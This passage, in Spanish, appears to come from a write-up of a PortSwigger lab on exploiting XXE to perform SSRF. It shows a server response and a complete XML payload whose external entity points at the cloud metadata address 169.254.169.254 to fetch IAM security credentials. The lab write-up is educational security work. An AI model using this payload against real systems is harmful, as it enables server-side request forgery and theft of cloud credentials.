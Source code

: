 Y volvemos a agregar la respuesta en la url del payload y obtenemos la siguiente respuesta:
```plaintext
"Invalid product ID: iam"
```

<p align="center">
     <img src="/assets/images/portswigger/exploiting_xxe_to_perform_ssrf_attacks/6.png" width="1000">
</p><br>

Y seguimos agregando todos los que nos sugiere hasta tener el siguiente payload.
```plaintext
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck>
        <productId>  
                &xxe;
        </productId> 
        <storeId>
                1 
        </storeId>
</stockCheck>
```



<p align="center">